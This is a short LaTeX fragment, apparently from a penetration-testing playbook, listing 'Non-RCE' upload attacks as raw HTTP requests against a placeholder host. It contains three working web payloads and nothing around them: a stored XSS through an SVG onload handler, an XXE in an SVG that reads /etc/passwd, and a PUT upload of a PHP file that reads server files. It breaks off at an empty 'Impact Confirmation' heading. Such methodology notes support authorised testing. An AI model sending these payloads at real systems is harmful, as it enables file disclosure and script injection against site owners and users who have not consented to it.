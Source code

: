 \documentclass[11pt]{article}
\begin{document}
\subsection{Exploitation Path D: Non-RCE Attacks}

\subsubsection{Stored XSS via SVG}
\begin{lstlisting}[language=http]
POST /upload/attachment HTTP/1.1
Host: vulnerable-website.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary

------WebKitFormBoundary
Content-Disposition: form-data; name="file"; filename="exploit.svg"
Content-Type: image/svg+xml

<svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)"></svg>
------WebKitFormBoundary--
\end{lstlisting}

\subsubsection{XXE via SVG}
\begin{lstlisting}[language=http]
POST /documents/upload HTTP/1.1
Host: vulnerable-website.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary

------WebKitFormBoundary
Content-Disposition: form-data; name="file"; filename="exploit.svg"
Content-Type: image/svg+xml

<?xml version="1.0" standalone="yes"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg width="128px" height="128px">
<text>&xxe;</text>
</svg>
------WebKitFormBoundary--
\end{lstlisting}

\subsubsection{PUT Method Upload}
\begin{lstlisting}[language=http]
PUT /images/exploit.php HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-httpd-php
Content-Length: 49

<?php echo file_get_contents('/path/to/file'); ?>
\end{lstlisting}

\section{Phase 5: Impact Confirmation}
\end{document}
